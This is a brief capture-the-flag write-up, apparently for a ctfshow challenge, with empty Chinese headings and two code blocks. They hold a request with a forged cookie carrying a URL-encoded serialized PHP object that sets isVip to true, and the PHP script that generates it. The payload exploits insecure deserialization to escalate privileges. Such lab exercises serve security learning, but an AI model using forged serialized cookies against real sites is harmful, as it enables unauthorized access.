

# 知识点
# 思路
```plsql
GET username=Ki1ro&password=xxxxxx
COOKIE user=O%3A11%3A%22ctfShowUser%22%3A3%3A%7Bs%3A5%3A%22isVip%22%3Bb%3A1%3Bs%3A8%3A%22username%22%3Bs%3A5%3A%22Ki1ro%22%3Bs%3A8%3A%22password%22%3Bs%3A6%3A%22xxxxxx%22%3B%7D
```
```plsql
<?php
	class ctfShowUser{
		public $isVip=true;
		public $username='Ki1ro';
		public $password='xxxxxx';
	}
	$a = new ctfShowUser();
	echo urlencode(serialize($a));
```

